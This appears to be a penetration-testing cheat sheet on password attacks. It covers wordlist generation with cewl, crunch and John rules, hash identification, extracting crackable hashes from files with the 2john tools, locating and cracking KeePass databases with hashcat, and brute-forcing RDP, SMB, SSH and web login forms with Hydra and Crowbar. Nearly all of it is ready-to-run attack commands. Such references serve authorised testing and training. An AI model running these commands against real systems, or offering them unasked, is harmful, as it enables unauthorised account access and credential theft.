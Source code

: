 # Password Attacks
## Generating Wordlists
### Cewl - Custom Word List generator

-> generating wordlist based on information from a website
```
cewl <domain> -w wordlist.txt
```

### Crunch - Wordlist Generator
-> Character Translation  
`@ = Lower case alpha characters`  
`, = Upper case alpha characters`  
`% = Numeric characters`  
`^ = Special characters including space`  

-> Usage
```
./crunch <min-len> <max-len> [charset]
```

-> basic examples
```
crunch 9 9 -t ,@@@@^%%%
```
```
crunch 4 6 0123456789abcdef -o wordlist.txt
```

### John Mutation
-> Add the rules you want in the /etc/john/john.conf file inside the rules module [List.Rules:Wordlist] to modify your wordlists  
-> basic rule example `$@$[1-2]$[0-9]$[0-9]$[0-9]`
```
john --wordlist=wordlist.txt --rules --stdout > mutated.txt
```
https://www.openwall.com/john/doc/RULES.shtml

## Cracking Password
### Identifying Hash Type
```
hashid <hash>
```
https://www.tunnelsup.com/hash-analyzer/
https://hashes.com/en/tools/hash_identifier

### Hashing different file types for cracking with 2john
- [ssh2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/ssh2john.c)  
- [rar2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/rar2john.c)  
- [zip2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c)  
- [keepass2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keepass2john.c)  
- [office2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/office2john.c)  
- [pdf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pdf2john.c)  
- [pwsafe2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pwsafe2john.c)  
- [racf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/racf2john.c)  
- [vncpcap2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/vncpcap2john.cpp)  
- [hccap2jjohn](https://github.com/piyushcse29/john-the-ripper/blob/master/src/hccap2john.c)  
- [keychain2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keychain2john.c)  
- [mozilla2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/mozilla2john.c)  

### Password Manager
-> Search KeePass database files
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

-> Hashing the .kdbx file
```
keepass2john Database.kdbx > keepass.hash   
```

-> Finding Hash-Mode ID of hashcat
```
hashcat --help | grep -i "KeePass"
```

-> Cracking
```
hashcat -m 13400 keepass.hash
```

## Brute Force Attacks
### RDP Brute Force - Hydra
```
hydra -L /usr/share/wordlists/rockyou.txt t -p "<password" rdp://<IP>
```

### RDP Brute Force - Crowbar
```
crowbar -b rdp -s X.X.X.X/32 -u admin -C /usr/share/wordlists/rockyou.txt -n 1
```

### SMB Brute Force - Hydra
```
hydra -L /root/Desktop/user.txt -P /usr/share/wordlists/rockyou.txt <IP> smb
```

### SSH Brute Force - Hydra
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```

### HTTP POST Login Form Brute Force - Hydra
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Login" -vV -f
```

### HTTP GET Login Form Brute Force - Hydra
```
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -f <IP> http-get /login
```
